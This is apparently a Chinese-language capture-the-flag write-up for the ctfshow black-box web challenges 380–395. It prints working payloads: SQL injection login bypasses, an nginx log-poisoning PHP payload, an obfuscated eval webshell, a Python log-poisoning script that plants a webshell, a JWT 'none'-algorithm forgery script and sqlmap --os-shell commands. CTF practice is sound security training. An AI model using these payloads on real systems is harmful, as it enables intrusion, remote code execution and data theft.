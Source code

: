 ## ctfshow_黑盒测试

玩点有意思的黑盒测试

### web380

![image-20221223174217622](黑盒测试.assets/image-20221223174217622.png)

打开页面到处点了一下并没有发现什么可疑的地方

直接扫后台

```bash
[17:43:01] 200 -    0B  - /flag.php
[17:43:25] 200 -  119B  - /page.php
```

直接访问`/flag.php`是没回显的

![image-20221223174421400](黑盒测试.assets/image-20221223174421400.png)

访问`page.php`

```
https://bef57593-24e7-43af-a254-6b0a6ea55810.challenge.ctf.show/page.php?id=flag
```

得到flag

### web381

与上题一样访问`page.php`

![image-20221223174626636](黑盒测试.assets/image-20221223174626636.png)

规定了前缀和后缀，感觉没法利用

访问源码发现一个奇怪的路径

![image-20221223174810890](黑盒测试.assets/image-20221223174810890.png)

访问`/alsckdfy`得到flag ？？？？？

### web382

接着访问上题的路径，这次是一个登录框

简单的sql注入，登陆进去就拿到flag

```
p=1&u=1'||1=1;#
```

### web383

同上

### web384

提示`密码前2位是小写字母，后三位是数字`

我就不爆破了。。

`账号 admin 密码 xy123`

### web385

访问`install/?install`重置密码

然后用`admin admin888`登陆

### web386

访问`clear.php`

![image-20221223183029567](黑盒测试.assets/image-20221223183029567.png)

那估计就是**file**是参数

访问`/install`是说已经安装过了，那就删除`?file=install/lock.dat`，然后重置密码登陆

### web387

直接用`clear.php`删不掉了

有一个`debug`

可以**文件包含**

```php
http://fb1d3e45-2ece-4ee3-af3c-50b4a55bb762.challenge.ctf.show/debug/?file=/var/log/nginx/access.log
```

直接日志文件包含删掉**lock.dat**

```php
user-agent:<?php unlink('/var/www/html/install/lock.dat')?>
```

然后继续上述步骤

### web388

多了一个目录`/alsckdfy/editor/`

日志文件包含多了过滤

**预期解**

 [CVE-2017-1002024](https://wiki.96.mk/Web安全/Kindeditor/（CVE-2017-1002024）Kindeditor <%3D4.1.11 上传漏洞/)

上传一个免杀🐎绕过

```php
<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```

然后利用`/debug`写入日志

![image-20221223191744828](黑盒测试.assets/image-20221223191744828.png)

然后日志包含，执行php代码

然后访问`1.php` **rce**

**非预期**

绕过日志文件的写入

```python
import requests
import base64
url="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/"
url2="http://fb707431-ebb7-41c8-9ce7-57da16163fec.chall.ctf.show/debug/?file=/var/log/nginx/access.log"
cmd=b"<?php eval($_POST[1]);?>"
cmd=base64.b64encode(cmd).decode()
headers={
	'User-Agent':'''<?php system('echo {0}|base64 -d  > /var/www/html/b.php');?>'''.format(cmd)
}
print(headers)
requests.get(url=url,headers=headers)
requests.get(url2)
print(requests.post(url+'b.php',data={'1':'system("cat alsckdfy/check.php");'}).text)
```

### web389

在上题的基础上多了一个`jwt`，直接**none**加密伪造绕过就好了

```python
from email import header
import jwt
import datetime

#自己组织payload
payload = {
  "iss": "admin",
  "iat": 1671849947,
  "exp": 1671857147,
  "nbf": 1671849947,
  "sub": "admin",
  "jti": "03991dd75449ec147dc38c7caa8596d7"
}
header={
  "alg": "none",
  "typ": "JWT"
}

jwt_token=jwt.encode(payload, #payload
                     "", #key
                     algorithm='none', #算法
                     headers=header #header
                     )
print(jwt_token)
```

### web390

page页面又直接的php文件变成了

```
http://dae903a6-fd52-4316-8473-5a0535389b61.challenge.ctf.show/page.php?id=1
```

存在**sql注入**

无任何过滤，那就直接上**sqlmap**了

```bash
sqlmap -u "http://dae903a6-fd52-4316-8473-5a0535389b61.challenge.ctf.show/page.php?id=1" --os-shell
```

可以直接拿到**shell**

### web391

注入点变了

```
http://728e2493-f933-42d9-a8e5-11f9358f7265.challenge.ctf.show/search.php?title=1
```

同上sqlmap一把梭

```bash
sqlmap -u "http://728e2493-f933-42d9-a8e5-11f9358f7265.challenge.ctf.show/search.php?title=1" --os-shell
```

### web392

同上

### web393

多了一个搜索功能，先利用search.php进行堆叠注入，将flag插入到搜索功能中的数据库中

```
search.php?title=1';insert into link values(10,'a','file:///flag');
```

然后搜索10就好了

```
link.php?id=10
```

### web394-395

第一种是和上题一样，只不过多了一个**hex**编码

第二种办法是**ssrf打redis**，因为title是存在url访问，可以打ssrf的

